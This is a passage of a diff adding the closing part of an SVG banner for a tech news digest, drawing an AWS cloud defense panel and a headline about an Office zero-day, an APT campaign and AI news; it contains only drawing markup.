+   <line x1="842" y1="290" x2="720" y2="290" stroke="#3b82f6" stroke-width="2.5" opacity="0.85" filter="url(#glow3)" />
+   <line x1="842" y1="315" x2="720" y2="348" stroke="#3b82f6" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
+   <polygon points="732,224 712,232 732,240" fill="#3b82f6" opacity="0.85" />
+   <polygon points="732,282 712,290 732,298" fill="#3b82f6" opacity="0.9" filter="url(#glow3)" />
+   <polygon points="732,340 712,348 732,356" fill="#3b82f6" opacity="0.85" />
+   <text x="785" y="272" font-family="monospace" font-size="10" fill="#60a5fa" text-anchor="middle">DETECTION</text>
+   <circle cx="600" cy="168" r="6" fill="#fbbf24" opacity="0.9" filter="url(#glow3)" />
+   <line x1="590" y1="158" x2="600" y2="168" stroke="#fbbf24" stroke-width="2" opacity="0.8" />
+   <line x1="610" y1="158" x2="600" y2="168" stroke="#fbbf24" stroke-width="2" opacity="0.8" />
+   <line x1="600" y1="155" x2="600" y2="168" stroke="#fbbf24" stroke-width="1.5" opacity="0.7" />
+   <text x="600" y="150" font-family="monospace" font-size="9" fill="#fbbf24" text-anchor="middle">CLASH</text>
+   <rect x="842" y="106" width="270" height="358" rx="8" fill="url(#cloudGrad)" stroke="#1a2d45" stroke-width="1" />
+   <rect x="842" y="106" width="270" height="42" rx="8" fill="#1a2d45" />
+   <rect x="842" y="126" width="270" height="22" fill="#1a2d45" />
+   <text x="862" y="130" font-family="Arial" font-size="14" font-weight="bold" fill="#f97316">aws</text>
+   <text x="900" y="130" font-family="'Segoe UI',Arial,sans-serif" font-size="12" fill="#93c5fd">G7e Instances</text>
+   <text x="900" y="144" font-family="monospace" font-size="10" fill="#64748b">us-east-1 | Seoul</text>
+   <rect x="862" y="158" width="230" height="212" rx="5" fill="#080e18" stroke="#1e3a5f" stroke-width="1" />
+   <rect x="870" y="166" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
+   <circle cx="884" cy="177" r="4" fill="#10b981" filter="url(#glow3)" />
+   <text x="894" y="181" font-family="monospace" font-size="10" fill="#34d399">g7e.48xlarge  [RUNNING]</text>
+   <rect x="870" y="194" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
+   <circle cx="884" cy="205" r="4" fill="#10b981" filter="url(#glow3)" />
+   <text x="894" y="209" font-family="monospace" font-size="10" fill="#34d399">g7e.24xlarge  [RUNNING]</text>
+   <rect x="870" y="222" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#3b82f6" stroke-width="0.5" />
+   <circle cx="884" cy="233" r="4" fill="#3b82f6" filter="url(#glow3)" />
+   <text x="894" y="237" font-family="monospace" font-size="10" fill="#60a5fa">WAF / Shield   [ACTIVE]</text>
+   <rect x="870" y="250" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#3b82f6" stroke-width="0.5" />
+   <circle cx="884" cy="261" r="4" fill="#3b82f6" />
+   <text x="894" y="265" font-family="monospace" font-size="10" fill="#60a5fa">GuardDuty      [ARMED]</text>
+   <rect x="870" y="278" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#f59e0b" stroke-width="0.5" />
+   <circle cx="884" cy="289" r="4" fill="#f59e0b" />
+   <text x="894" y="293" font-family="monospace" font-size="10" fill="#fbbf24">Threat Intel   [ALERT]</text>
+   <rect x="870" y="306" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
+   <circle cx="884" cy="317" r="4" fill="#10b981" />
+   <text x="894" y="321" font-family="monospace" font-size="10" fill="#34d399">CloudTrail     [LOGGING]</text>
+   <rect x="870" y="334" width="214" height="22" rx="3" fill="#0f1e2e" stroke="#1e3a5f" stroke-width="0.5" />
+   <circle cx="884" cy="345" r="4" fill="#10b981" />
+   <text x="894" y="349" font-family="monospace" font-size="10" fill="#34d399">Security Hub   [OK]</text>
+   <text x="977" y="400" font-family="Arial" font-size="28" fill="#3b82f6" text-anchor="middle" opacity="0.8">☁</text>
+   <text x="977" y="426" font-family="monospace" font-size="10" fill="#64748b" text-anchor="middle">ap-northeast-2</text>
+   <text x="977" y="452" font-family="'Segoe UI',Arial,sans-serif" font-size="14" font-weight="bold" fill="#60a5fa" text-anchor="middle">AWS Cloud</text>
+   <text x="977" y="468" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#64748b" text-anchor="middle">Defense Layer</text>
+   <text x="600" y="558" font-family="'Segoe UI',Arial,sans-serif" font-size="36" font-weight="bold" fill="white" text-anchor="middle" filter="url(#textGlow)">Office Zero-Day + APT</text>
+   <text x="600" y="582" font-family="'Segoe UI',Arial,sans-serif" font-size="16" fill="#94a3b8" text-anchor="middle">MS Office Exploit | Kimi K25 AI | Kimwolf Campaign | AWS G7e</text>
+   <line x1="40" y1="585" x2="1160" y2="585" stroke="#1a0808" stroke-width="1" />
+   <text x="40" y="610" font-family="'Segoe UI',Arial,sans-serif" font-size="13" fill="#64748b">22 News | 6 Security | 4 AI/ML | 3 Cloud | 3 DevOps</text>
+   <text x="1160" y="610" font-family="'Segoe UI',Arial,sans-serif" font-size="13" fill="#64748b" text-anchor="end">tech.2twodragon.com</text>
</svg>
